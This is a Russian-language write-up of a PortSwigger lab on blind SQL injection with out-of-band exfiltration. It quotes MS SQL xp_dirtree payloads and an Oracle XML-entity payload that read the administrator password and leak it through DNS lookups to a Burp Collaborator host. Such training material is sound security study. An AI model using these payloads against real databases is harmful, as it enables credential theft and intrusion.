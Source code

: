 # Blind SQL injection with out-of-band data exfiltration

## Theory

<h3>Использование слепых SQL-инъекций с использованием внеполосных методов (OAST)</h3>

Теперь предположим, что приложение выполняет SQL-запрос, но делает это асинхронно. Приложение продолжает обрабатывать запрос пользователя в исходном потоке и использует другой поток для выполнения запроса SQL с использованием файла cookie отслеживания. Запрос по-прежнему уязвим для SQL-инъекций, однако ответ приложения не зависит от того, возвращает ли запрос какие-либо данные, возникает ли ошибка базы данных или время, затраченное на выполнение. запрос.

В этой ситуации часто можно использовать уязвимость слепой инъекции SQL, запуская внеполосные сетевые взаимодействия с системой, которую вы контролируете. Как и ранее, они могут запускаться условно, в зависимости от введенного условия, чтобы выводить информацию по одному биту за раз. Но что еще более важно, данные могут быть удалены непосредственно в рамках самого сетевого взаимодействия.

Для этой цели можно использовать различные сетевые протоколы, но, как правило, наиболее эффективным является DNS. Это связано с тем, что очень многие производственные сети допускают свободный исход DNS-запросов, поскольку они необходимы для нормальной работы производственных систем.

Самый простой и надежный способ использования внеполосных методов — использование Burp Collaborator. Это сервер, который предоставляет настраиваемые реализации различных сетевых служб (включая DNS) и позволяет обнаруживать, когда происходят сетевые взаимодействия в результате отправки отдельных полезных данных уязвимому приложению.

Методы запуска DNS-запроса сильно зависят от типа используемой базы данных. В Microsoft SQL Server ввод, подобный следующему, может использоваться для поиска DNS в указанном домене:
```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

Это заставит базу данных выполнить поиск следующего домена:
```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

Подтвердив способ инициирования внеполосных взаимодействий, мы можем использовать внеполосный канал для получения данных из уязвимого приложения. Например:
```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

Этот ввод считывает пароль для пользователя Administrator, добавляет уникальный поддомен Collaborator и запускает поиск DNS. Это приведет к поиску DNS, подобному следующему, что позволит нам просмотреть захваченный пароль:

```
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_out-of-band_data_exfiltration/assets/1.png)

Нажимаем на кнопку Home и перехватывам запрос.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_out-of-band_data_exfiltration/assets/2.png)

Откроем Burp Collaborator(Burp -> Burp collaborator client) и скопируем доменное имя(Copy to clipboard).

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_out-of-band_data_exfiltration/assets/3.png)

[SQL injection cheatsheet](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_cheatsheet#DNS_lookup_with_data_exfiltration) поможет сформировать запрос. Изменим параметр **BURP-COLLABORATOR-SUBDOMAIN** на скопированный нами ранее. Изменим строку **SELECT YOUR-QUERY-HERE** для получения пароля пользователя Administrator.

```
EOv'||(SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(select+password+from+users+where+username%3d'administrator')||'.n2qdx0xs8zxenc9nmr37i4phr8xyln.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual)--;
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_out-of-band_data_exfiltration/assets/4.png)

Переходим в Burp Collaborator и нажимаем на кнопку **Poll now**. Получаем результаты запроса. Выюираем первый пункт DNS и видим пароль от пользователя Administrator перед нашим субдоменом.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_out-of-band_data_exfiltration/assets/5.png)

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_out-of-band_data_exfiltration/assets/6.png)
